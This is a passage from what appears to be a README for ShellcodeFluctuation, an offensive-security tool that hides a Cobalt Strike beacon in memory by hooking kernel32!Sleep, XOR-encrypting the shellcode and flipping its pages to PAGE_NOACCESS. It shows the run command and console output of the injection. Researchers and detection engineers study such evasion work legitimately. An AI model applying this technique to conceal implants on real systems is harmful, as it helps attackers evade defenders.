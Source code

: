 Currently I thought of no better option to intercept shellcode's execution in the middle (now speaking of Cobalt Strike), other than to hook `kernel32!Sleep`. Thus, we are bound to leave these sorts of IOCs.

But hey, still none of the bytes differ compared to what is lying out there on the filesystem (`C:\Windows\System32\kernel32.dll`) and no function is hooked, what's the deal? 😉



### Encrypted Beacon with PAGE_NOACCESS protections

```
C:\> ShellcodeFluctuation.exe beacon64.bin 2
```

![no-access](images/no-access1.png)

That will cause the shellcode to fluctuate between `RX` and `NA` pages effectively:

```
C:\> ShellcodeFluctuation.exe beacon64.bin 2
[.] Reading shellcode bytes...
[.] Hooking kernel32!Sleep...

[.] Initializing VEH Handler to intercept invalid memory accesses due to PAGE_NOACCESS.
    This is a re-implementation of ORCA666's work presented in his https://github.com/ORCA666/0x41 project.

[.] Injecting shellcode...
[+] Shellcode is now running. PID = 45312
[+] Fluctuation initialized.
    Shellcode resides at 0x00000147EE811000 and occupies 176128 bytes. XOR32 key: 0x0bd4bcf7

[>] Flipped to RW.
[>] Encoding...
[>] Flipped to No Access.
```